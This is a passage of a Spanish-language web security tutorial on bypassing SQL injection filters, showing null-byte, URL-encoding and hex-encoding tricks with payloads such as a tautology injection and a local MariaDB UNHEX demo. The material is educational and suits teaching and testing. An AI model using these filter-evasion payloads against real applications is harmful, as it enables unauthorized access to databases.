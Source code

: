 Y por ultimo, en las boolean-based y time-based se ocupan scritps para hacer mas rapido el proceso.

Si quieres leer mas de las time-based puedes leer [aqui](https://sec-art.net/2021/12/30/time-based-sql-injection-explained-sql-injection-series-web-security/)


## Bypass filters SQL injection 

### null-bytes

Puede ser que en la consulta se esten bloquendo ciertos caracteres en la consulta de SQL, una forma es usando ```null-byte```, basicamente poner ```%00``` por delante de el caracter que es este bloquendo:

```sql
%00' or 1=1--
```

### URL encode

Los caracteres no validos en las URL deben de convertirse a ASCII validos para que las URL los puedan interpretar, por ejemplo:

```sql
' or 1=1--
```
En URL encode es:
```
%27%20or%201%3D1--
```

Para codificarlos pueden usar [URL encode](https://www.urlencoder.org/)

### Hex encoding

Con la codifcacion hexadecimal va a remplazar los caracteres originales con su valor en hexadecimal

Normal:

```sql
MariaDB [test]> SELECT anime FROM waifus WHERE nombre = "Miwa Yamamura";
+-----------+
| anime     |
+-----------+
| Barakamon |
+-----------+
1 row in set (0.001 sec)
```

Hex:

```sql
MariaDB [test]> SELECT anime FROM waifus WHERE nombre = UNHEX('4D6977612059616D616D757261');
+-----------+
| anime     |
+-----------+
| Barakamon |
+-----------+
1 row in set (0.001 sec)
```
